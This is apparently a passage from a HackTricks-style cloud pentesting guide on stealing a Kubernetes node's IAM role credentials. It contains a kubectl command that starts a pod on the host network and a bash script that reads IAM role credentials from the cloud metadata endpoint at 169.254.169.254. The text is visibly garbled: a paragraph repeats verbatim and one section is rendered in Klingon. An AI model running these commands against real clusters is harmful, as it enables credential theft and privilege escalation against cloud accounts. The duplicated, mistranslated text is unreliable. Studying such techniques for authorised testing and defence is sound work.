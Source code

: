 The previos section was about how to steal IAM Roles with pods, but note that a **Node of the** K8s cluster is going to be an **instance inside the cloud**. This means that the Node is highly probable going to **have a new IAM role you can steal** (_note that usually all the nodes of a K8s cluster will have the same IAM role, so it might not be worth it to try to check on each node_).

There is however an important requirement to access the metadata endpoint from the node, you need to be in the node (ssh session?) or at least have the same network:

### Node IAM Role

The previos section was about how to steal IAM Roles with pods, but note that a **Node of the** K8s cluster is going to be an **instance inside the cloud**. This means that the Node is highly probable going to **have a new IAM role you can steal** (_note that usually all the nodes of a K8s cluster will have the same IAM role, so it might not be worth it to try to check on each node_).

There is however an important requirement to access the metadata endpoint from the node, you need to be in the node (ssh session?) or at least have the same network:
```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```
### qo'wI' 'e' yIqIm

Dochvam'e' vItlhutlh **IAM Role** laH **Pods** vaj **Node** vItlhutlh **escape** vay' vItlhutlh **IAM Role** credentials **steal**.

**IAM role credentials** **steal** **script** vItlhutlh:
```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
echo "IAM Role discovered: $IAM_ROLE_NAME"
if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
echo "Credentials:"
curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
fi
fi
```
## References

* [https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
* [https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c](https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c)
* [https://blogs.halodoc.io/iam-roles-for-service-accounts-2/](https://blogs.halodoc.io/iam-roles-for-service-accounts-2/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
